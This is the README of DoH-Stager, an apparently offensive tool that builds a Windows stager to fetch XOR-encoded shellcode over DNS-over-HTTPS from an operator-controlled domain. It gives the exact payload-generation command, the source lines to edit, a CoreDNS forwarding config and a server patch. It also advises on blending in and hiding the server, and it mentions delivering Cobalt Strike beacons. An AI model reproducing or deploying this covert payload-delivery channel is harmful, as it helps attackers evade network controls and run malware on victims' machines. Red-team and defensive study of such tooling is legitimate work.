# DoH-Stager

###### Diahane-Oh-Stager - Common tuscanian expression of disappointment 

DoH-Stager is an expansion of the awesome [DNSStager](https://github.com/mhaskar/DNSStager) tool made by [@mohammadaskar2](https://twitter.com/mohammadaskar2). DoH-Stager is aimed at providing the same functionalities as the original version, but using DNS-over-HTTPS instead of classic DNS. 

For those who are not familiar with DNSStager, the project is program what allows the operator to create a number of stagers that will fetch an arbitrary payload via DNS. Despite the PoC is intended to be used with a shellcode, it can adapted to retrieve any content such as encryption keys or other post-exploitation capabilities. 

This update was necessary in order to operate in environments where DNS resolution was restricted on the host and mostly delegated to the HTTP proxy.

## Usage

In order to use DoH-Stager you need to configure the following components:

- A custom NS record configured in your DNS provider that points to the host where the DNSStager server was deployed
- A fully functioning DNSStager deployment, as outlined [here](https://github.com/mhaskar/DNSStager#installation).

Run the `dnsstager`python script as follows:

```
./dnsstager.py  --domain p.pacc.tortellozzi.club --payload x64/c/ipv6 --o
utput ~/payload.exe --prefix emperor --sleep 1 --xorkey 0x10 --shellcode_path ~/calc-thread64.bin
```

The arguments:

- `--domain p.pacc.tortellozzi.club` is the domain that you want to use for DNSStager
- `--payload x64/c/ipv6`is the type of payload that you want to generate, do not change this.
- `--prefix emperor` the prexif to prepend to all the queries, find a suitable name that will blend in.
- `--xorkey 0x10`the key used to encrypt the shellcode/payload  
- `--shellcode_path ~/calc-thread64.bin` is the shellcode that you want to serve 

Take note of the `xorkey` parameter you use, as you will need to manually copy it in the `DoHStager.cpp` file later.

You can modify line 18 of the `DoHStager.cpp` file to use other DoH providers, the provided PoC only used Google's DNS:

```
 18 #define DOMAIN              "dns.google.com"
```

You will also need to modify line 189 to specify your custom domain:

```
189                 sprintf_s(domain, 200, "emperor%i.p.pacc.tortellozzi.club",     i);
```

the above should match with the values that you specified when the `dnsstager` server was launched.

Compile the project using Visual Studio (tested with VS2019) and enjoy your dropper! Of course it is missing several features, such as:

- Execution guardrails
- OpSec-safe process injection

But after all we want to keep a couple of aces in our sleeve and not provide a fully weaponised version available to the public.

In addition, if you do not want to expose your DNSStager server directly to the internet, and there are several reasons for not doing it, as outlined in F-Secure's blog [Detecting Exposed Cobalt Strike DNS Redirectors](https://labs.f-secure.com/blog/detecting-exposed-cobalt-strike-dns-redirectors), it is possible to use CoreDNS to provide an additional layer of obfuscation.

Using the proposed configuration it will be possible to have a DNS server that will forward DNS queries to all the domain via the Quad9 resolver, whilst forwarding the traffic to the DNSStager server only for the desired zone.

The Corefile that can be used is the following:

```
. {
log
  forward . 9.9.9.9
}

p.pacc.tortellozzi.club {
        log
        forward . 127.0.0.1:5050
}
```

And the only thing that was changed in the original server's python script was the port where the server will be listening to:
```
--- a/core/functions.py
+++ b/core/functions.py
@@ -185,8 +185,8 @@ def start_dns_server(ZONES):
     resolver = Resolver(ZONES)

     try:
-        server = DNSServer(resolver, port=53, address="0.0.0.0", tcp=False)
-        print_success("Server started!")
+        server = DNSServer(resolver, port=5050, address="0.0.0.0", tcp=False)
+        print_success("Server started on port 5050!")
         server.start()
```

## Other Notes

* This tool is not great in terms of performance. In fact, to download a fully stageless Cobalt Strike beacon might take approximately one hour wilst genertaing a lot of traffic. Use at your own risk.
* Don't expect a clean code, this is a PoC that was quickly put together using several snippets and stuff like that. If you don't like it, don't use it, I could not care less.
